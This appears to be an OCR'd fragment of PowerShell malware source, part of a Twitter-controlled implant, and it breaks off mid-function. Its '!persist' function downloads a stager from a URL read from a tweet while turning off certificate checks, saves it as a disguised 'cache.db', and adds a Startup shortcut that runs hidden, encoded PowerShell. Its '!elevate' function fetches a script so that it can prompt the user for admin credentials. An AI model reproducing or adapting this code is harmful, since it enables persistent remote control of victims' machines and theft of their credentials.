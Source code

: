         #Implements the !persist command to download this script or another hosted stager script and drop it into the startup folder as a shortcut
        #Ex: !persist|http://pastebin.com/raw.php?i=Hqs2imY5
        Function PersistCommand {
            
            [string] $downloadURL = $LatestTweet.split('|')[1]
            #This is hardcoded in due to MAX_PATH limitations in shortcuts. if changed $RunPath must be reencoded and must remain under 259 characters
            [string] $FileOnDisk = "$env:programdata\cache.db"

            if ($downloadURL.Substring(0,5) -ceq "https") {
                [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True }
            }

            #Twitter automatically shortens every URL so we need to get the actual URL
            $WebRequest = [System.Net.Webrequest]::create($downloadURL)
            $WebResponse = $WebRequest.GetResponse()
            $ActualdownloadURL = $WebResponse.ResponseUri.AbsoluteUri
            $WebResponse.Close()
            Write-Verbose "I am downloading from $ActualdownloadURL"
            Write-Verbose "I am saving the file to $FileOnDisk"
            $downloadedScript = $WebClientObject.downloadFile($downloadURL,$FileOnDisk)
            $RunPath = '%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe -exe bypass -nol -win hidden -enc JABBACAAPQAgAEcAQwAgACQAZQBuAHYAOgBQAHIAbwBnAHIAYQBtAEQAYQB0AGEAXABjAGEAYwBoAGUALgBkAGIAOwAgAEkARQBYACAAJABBAA=='

                    if ($IsAdmin -eq $True) {
                        [string] $PersistencePath = "$env:ALLUSERSPROFILE" + '\Microsoft\Windows\Start Menu\Programs\StartUp\StartUp.lnk'
                    }

                    else {
                        [string] $PersistencePath = "$env:USERPROFILE" + '\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\StartUp.lnk'
                    }
               
                    $WScript = New-Object -ComObject Wscript.Shell
                    $Shortcut = $Wscript.CreateShortcut($PersistencePath)
                    $Shortcut.TargetPath = ($RunPath)
                    $Shortcut.Save()
        }       
        
        #This implements the !elevate command which downloads a script and prompts the user to enter admin credentials
        #Ex: !elevate|http://blahblah.com/fjdads/script.raw
        Function ElevateCommand {
            
            if ($IsAdmin -eq $False) {
            
                [string] $downloadURL = $LatestTweet.split('|')[1]
                                           
                if ($downloadURL.Substring(0,5) -ceq "https") {
                    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True }
                }
                               
                $WebRequest = [System.Net.WebRequest]::create($downloadURL)
                $WebResponse = $WebRequest.GetResponse()
                $ActualdownloadURL = $WebResponse.ResponseUri.AbsoluteUri
                $WebResponse.Close()
            